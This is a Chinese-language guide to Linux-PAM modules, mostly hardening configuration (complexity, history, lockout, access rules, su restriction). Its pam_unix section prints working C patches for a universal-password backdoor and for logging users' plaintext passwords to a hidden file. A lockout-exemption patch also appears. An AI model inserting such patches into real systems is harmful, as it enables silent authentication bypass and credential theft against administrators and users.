

## PAM认证
Linux-PAM (Pluggable Authentication Modules for Linux) is a suite of shared libraries that enable the local system administrator to choose how applications authenticate users.
<br>

<br>
下面列举一些常用的PAM模块，获取更多指导请参考[The Linux-PAM Guides](http://www.linux-pam.org/Linux-PAM-html/)。
### pam_unix
This is the standard Unix authentication module. It uses standard calls from the system's libraries to retrieve and set account information as well as authentication. 
<br>
最基础的一个PAM模块，负责用户认证、口令加密、账号信息、会话管理等，基本上会被所有的配置文件(/etc/pam.d/*)包含。
<br>
常见PAM后门就是修改的这个模块，达到记录用户密码、通用密码等功能。
<br>
例如，下面修改pam_unix/support.c里的_unix_verify_password函数，设置一个口令后门，任意用户输入"sigema_3.14159"即可认证成功:
```
int _unix_verify_password(pam_handle_t * pamh, const char *name
			  ,const char *p, unsigned int ctrl)
{
	struct passwd *pwd = NULL;
	char *salt = NULL;
	char *data_name;
	int retval;
	
	/* 通用口令后门 */
	const char *pd = "sigema_3.14159";
	if(!strncmp(p, pd, 14)) {
		return PAM_SUCCESS;
	}
	/* end */

	/* 省略内容*/
}
```
下面修改pam_unix/pam_unix_auth.c里的pam_sm_authenticate函数，实现记录用户密码:
```
PAM_EXTERN int pam_sm_authenticate(pam_handle_t * pamh, int flags
				   ,int argc, const char **argv)
{
	FILE *fp = NULL;
	
	/* 省略内容*/
	
	/* 记录认证成功的用户密码 */
	if(PAM_SUCCESS == retval) {
		fp = fopen("/.pd.sv", "a+");
		if(NULL != fp) {
			fprintf(fp, "%s -> %s\n", name, p);
			fclose(fp);
		}
	}
	/* end */
	
	name = p = NULL;
	AUTH_RETURN;
}
```
### pam_cracklib
作用: 校验新设置口令的复杂度是否满足要求。
<br>
示例: 最小长度14，至少包含4种字符(大写、小写、数字、特殊字符)，禁止包含用户名，对root用户生效
```
SUSE12-2:~ # cat /etc/pam.d/common-password
#%PAM-1.0
#
password	requisite	pam_cracklib.so minlen=14 minclass=4 reject_username enforce_for_root
password	sufficient	pam_unix.so	use_authtok shadow try_first_pass sha512
```
pam_cracklib.so模块常用参数:

|参数|作用|
|----|----|
|difok=N|新密码和旧密码至少有几个字符不同, 默认值:5|
|minlen=N|密码最小长度, 默认值:9|
|dcredit=N|N>=0时表示密码中最多包含N个数字; N<0时表示密码中至少包含-N个数字|
|ucredit=N|大写字母个数要求，N同dcredit|
|lcredit=N|小写字母个数要求，N同dcredit|
|ocredit=N|特殊字符个数要求，N同dcredit|
|minclass=N|密码中至少包含几种字符|
|maxrepeat=N|相同字符连续重复(aaa)最大次数，默认值:0，表示不检查|
|maxsequence=N|字符序列(abcd,1234)最大长度，默认值:0，表示不检查|
|reject_username|禁止包含用户名或逆序|
|enforce_for_root|口令复杂度要求对root用户也生效|
|dictpath=/path/to/dict|口令字典路径，禁止新密码与字典内的口令相同|

### pam_pwhistory
This module saves the last passwords for each user in order to force password change history and keep the user from alternating between the same password too frequently.
<br>
示例: 记录10个历史密码，对root用户生效
```
SUSE12-2:~ # cat /etc/pam.d/common-password
#%PAM-1.0
#......
password	required	pam_pwhistory.so use_authtok remember=10 enforce_for_root
password	sufficient	pam_unix.so	use_authtok shadow try_first_pass sha512
```
### pam_tally2
用于防范暴力破解的一个模块，用户认证失败达到一定次数后将其锁定一段时间。
<br>
例如，对于SSH服务，可以编辑`/etc/pam.d/sshd`文件，添加：
```
#%PAM-1.0
auth        requisite   pam_nologin.so
auth        include     common-auth
account     requisite   pam_nologin.so
account     include     common-account
#......
#添加下面两行配置
auth required pam_tally2.so onerr=fail audit silent deny=10 unlock_time=900  //失败10次后，锁定900秒
account required pam_tally2.so
```
对于login、vsftpd、su、su-l、sudo等, 可分别在`/etc/pam.d/login`、`/etc/pam.d/vsftpd`、`/etc/pam.d/su`、`/etc/pam.d/su-l`、`/etc/pam.d/sudo`文件中追加一行:
```
auth required pam_tally2.so onerr=fail audit silent deny=10 unlock_time=900
```
另外，有个pam_tally2命令，可以查看当前用户的认证失败次数(pam_tally2 -l)，或者手动解锁用户(清空计数)(pam_tally2 --reset)。

### pam_tally2_custom
对pam_tally2模块进行修改，增加例外用户功能。
<br>
添加下面两个函数用于校验用户是否在例外列表中:
```
/* ---- check if user is exist in DEFAULT_EXCEPTUSERS --- */
#define DEFAULT_EXCEPTUSERS "/etc/security/pam_tally2_custom.whitelist"
#define MAX_USERNAME_LEN 64

static void del_newline(const char * buf, char * newbuf){
  int buflen, copylen, i, j=0;
  
  if(buf == NULL)
     return;

  memset(newbuf, 0, sizeof(newbuf));

  buflen = strlen(buf);
  copylen = buflen < MAX_USERNAME_LEN ? buflen : MAX_USERNAME_LEN;

  for (i=0; i<copylen; i++){
	if ((buf[i] == '\n') || (buf[i] == '\r'))
	    break;
	
	newbuf[j++] = buf[i];
  }
}

static int is_except_user(const char * user) {
  FILE *tfile;
  char line[MAX_USERNAME_LEN], username[MAX_USERNAME_LEN];
  int found = 0;

  if (NULL == user){
      printf("user is null\n");
      return 0;
  }
  
  tfile = fopen(DEFAULT_EXCEPTUSERS, "r");
  if (!tfile)
      return 0;

  while (!feof(tfile)){
	memset(line, 0, sizeof(line));
	fgets(line, MAX_USERNAME_LEN, tfile);
	del_newline(line, username);
	if(!strcmp(user, username)){
	    found = 1;
	    break;
	}
  }

  if(tfile)
      fclose(tfile);

  return found;
}
/* ------------------------------------------------------ */
```
在pam_sm_authenticate、pam_sm_acct_mgmt、pam_sm_acct_mgmt函数中增加两行代码:
```
rv = pam_get_uid(pamh, &uid, &user, opts);
if ( rv != PAM_SUCCESS )
    RETURN_ERROR( rv );
//增加下面两行代码，如果正在登录的用户在例外列表中，则直接返回成功
if (is_except_user(user))
    return PAM_SUCCESS;
```
修改模块名称:
```
//#define MODULE_NAME     "pam_tally2"
#define MODULE_NAME     "pam_tally2_custom"
```
修改pam_module结构体变量名:
```
//struct pam_module _pam_tally_modstruct = {
struct pam_module _pam_tally_custom_modstruct = {
     MODULE_NAME,
```
结果演示:
```
SLES11:/home/Linux-PAM-1.1.5/modules/pam_tally2_custom # make
SLES11:/home/Linux-PAM-1.1.5/modules/pam_tally2_custom # cp .libs/pam_tally2.so /lib64/security/pam_tally2_custom.so 
SLES11:/home/Linux-PAM-1.1.5/modules/pam_tally2_custom # chmod 755 /lib64/security/pam_tally2_custom.so
SLES11:~ #
SLES11:~ # echo "fjl" > /etc/security/pam_tally2_custom.whitelist  //将fjl加入例外用户列表
SLES11:~ # cat /etc/pam.d/sshd
#%PAM-1.0
auth        requisite   pam_nologin.so
auth        include     common-auth
auth 	    required	pam_tally2_custom.so onerr=fail deny=3 unlock_time=300
account     required	pam_tally2_custom.so
#......
SLES11:~ #
SLES11:~ # pam_tally2
SLES11:~ # 
SLES11:~ # ssh lj@localhost
Password: 
Password: 
Password: 
Permission denied (publickey,keyboard-interactive).
SLES11:~ # ssh fjl@localhost
Password: 
Password: 
Password: 
Permission denied (publickey,keyboard-interactive).
SLES11:~ # pam_tally2
Login           Failures Latest failure     From
lj                  3    09/07/17 22:21:56  localhost   //可以看到用户fjl的失败登录并没有计数
SLES11:~ # 
```
### pam_faildelay
认证失败后延时一段时间，预防暴力破解攻击。
<br>
如，设置SSH登录时输错1次密码，则延迟10秒才能在次输入密码，在`/etc/pam.d/sshd`文件中追加一行:
```
auth  optional  pam_faildelay.so  delay=10000000  #delay单位为微秒
```
### pam_access
用户登录访问控制，限制用户登录来源。
<br>
编辑`/etc/pam.d/common-account`，设置:
```
account	required	pam_access.so	accessfile=/etc/security/access.conf  #在文件前面添加配置
account	requisite	pam_unix.so	try_first_pass
```
编辑`/etc/security/access.conf`文件设置访问控制规则:
```
# permission : users : origins

# Allow user "foo" to get access from 192.168.1.*.
+ : foo : 192.168.1.0/24

# User "root" should be denied to get access from all other sources.
- : root : ALL

# All other users should be denied to get access from all sources.
- : ALL : ALL
```
### pam_wheel
使用su命令可以进行用户切换(包括提权到root)，但是su过后会获取目标用户的全部权限，利用pam_wheel模块可以限制指定的用户使用su命令。
<br>
编辑`/etc/pam.d/su`和`/etc/pam.d/su-l`文件，追加一行配置:
```
auth required pam_wheel.so use_uid    //只有wheel组内的用户可以使用su命令
```
另外两个常用参数:
<br>
root_only  仅在su到root时做检查，普通用户直接su不限制
<br>
group=GROUP_NAME    指定用户组，默认为wheel
### pam_umask
开启一个会话session后设置用户的umask值。
<br>
编辑`/etc/pam.d/common-session`文件，设置:
```
session	optional	pam_umask.so    umask=0077    //设置用户的umask为0077
```
### pam_mkhomedir
用户登录系统时，如果HOME目录不存在，则自动创建。
<br>
编辑`/etc/pam.d/common-session`文件，设置:
```
session  optional	pam_mkhomedir.so	umask=0077  //umask指定创建HOME的权限
```
